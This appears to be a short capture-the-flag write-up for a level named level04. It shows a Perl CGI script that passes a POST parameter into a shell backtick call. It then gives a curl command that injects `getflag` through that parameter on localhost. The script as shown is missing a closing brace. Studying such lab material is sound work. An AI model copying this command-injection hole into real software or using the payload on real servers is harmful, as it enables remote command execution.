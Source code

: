 *level04.pl*
->  HTML server - echo the POST *x* parameter
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
x(param("x"));
```

We can inject the command you want in the *x* parameter

```
curl http://localhost:4747/ -d 'x=`getflag`'
```


